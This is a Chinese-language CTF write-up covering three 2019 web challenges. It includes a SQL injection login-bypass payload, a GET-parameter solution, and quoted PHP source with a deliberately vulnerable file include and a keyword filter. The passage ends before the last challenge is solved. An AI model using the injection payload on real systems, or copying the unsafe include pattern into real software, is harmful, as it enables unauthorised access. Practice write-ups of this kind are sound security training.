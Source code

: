 # 极客大挑战 2019

## EasySQL

> *2021/06/30*

### 题目

题目本身就是把用户输入放进一对单引号之中，想办法闭合单引号即可，无难度

### payload

```
?username=bme&password=1' or '1'='1
```

## Have fun

> *2021/07/01*

### 题目

题目比较简单，打开页面源码，发现源码也包含在其中，发送Get请求`cat=dog`得到`flag`

```php
$cat=$_GET['cat'];
echo $cat;
if($cat=='dog'){
    echo 'Syc{cat_cat_cat_cat}';
}
```

### payload

```
?cat=dog
```

## Secret File

> *2021/07/01*

### 题目

F12打开源码，发现一个`./Archive_room.php`的链接，点进去有一个**secret**按钮，点进去发现查阅结束，需要用Burp截包，截下数据包发现，有一个**302跳转**，其中包含`secr3t.php`页面，发现源代码。

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
```
